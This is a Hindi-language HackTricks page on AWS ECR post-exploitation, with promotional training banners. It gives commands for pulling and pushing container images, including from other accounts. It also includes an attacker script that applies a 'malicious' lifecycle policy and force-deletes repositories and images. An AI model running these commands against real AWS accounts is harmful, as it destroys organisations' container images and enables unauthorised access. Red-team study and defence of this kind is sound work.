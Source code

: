 # AWS - ECR पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## ECR

अधिक जानकारी के लिए देखें

{% content-ref url="../aws-services/aws-ecr-enum.md" %}
[aws-ecr-enum.md](../aws-services/aws-ecr-enum.md)
{% endcontent-ref %}

### लॉगिन, पुल और पुश

{% code overflow="wrap" %}
```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<img_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
--registry-id 653711331788 \
--image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
--repository-name level2 \
--registry-id 653711331788 \
--layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
{% endcode %}

छवियों को डाउनलोड करने के बाद आपको **संवेदनशील जानकारी के लिए उनकी जांच करनी चाहिए**:

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics" %}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

इनमें से किसी भी अनुमति के साथ एक हमलावर **सभी छवियों को हटाने के लिए एक जीवनचक्र नीति बना या संशोधित कर सकता है** और फिर **पूरे ECR रिपॉजिटरी को हटा सकता है**। इसके परिणामस्वरूप रिपॉजिटरी में संग्रहीत सभी कंटेनर छवियों का नुकसान होगा।
```bash
bashCopy code# Create a JSON file with the malicious lifecycle policy
echo '{
"rules": [
{
"rulePriority": 1,
"description": "Delete all images",
"selection": {
"tagStatus": "any",
"countType": "imageCountMoreThan",
"countNumber": 0
},
"action": {
"type": "expire"
}
}
]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
